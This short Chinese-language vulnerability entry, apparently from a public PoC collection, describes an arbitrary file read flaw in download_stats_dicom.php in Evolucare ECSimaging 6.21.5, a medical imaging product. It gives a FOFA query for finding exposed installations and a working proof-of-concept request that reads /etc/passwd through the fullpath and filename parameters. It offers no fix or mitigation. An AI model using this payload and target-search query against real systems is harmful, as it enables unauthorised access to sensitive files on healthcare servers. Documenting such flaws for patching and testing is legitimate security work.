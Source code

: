 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## FOFA

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241445607.png)